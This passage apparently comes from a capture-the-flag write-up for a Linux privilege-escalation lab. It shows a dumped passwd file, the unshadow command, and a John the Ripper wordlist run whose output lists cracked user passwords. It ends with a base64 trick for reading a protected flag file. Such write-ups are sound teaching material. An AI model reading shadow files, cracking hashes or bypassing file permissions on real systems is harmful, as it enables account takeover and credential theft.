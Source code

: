 ```
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
gerryconway:x:1001:1001::/home/gerryconway:/bin/sh
user2:x:1002:1002::/home/user2:/bin/sh
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
karen:x:1003:1003::/home/karen:/bin/sh

```
`unshadow passwd.txt shadow.txt >pass.txt`

### john
```
┌──(kali㉿kali)-[~/Desktop]
└─$ john pass.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (karen)     
Password1        (user2)     
test123          (gerryconway)     
3g 0:00:00:09 DONE (2022-01-27 08:52) 0.3184g/s 1902p/s 2663c/s 2663C/s paramedic..biscuit1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
### flag3
```
karen@ip-10-10-85-246:/home/ubuntu$ base64 /home/ubuntu/flag3.txt | base64 --decodeTHM-3847834

```
## task8 Capabilities 
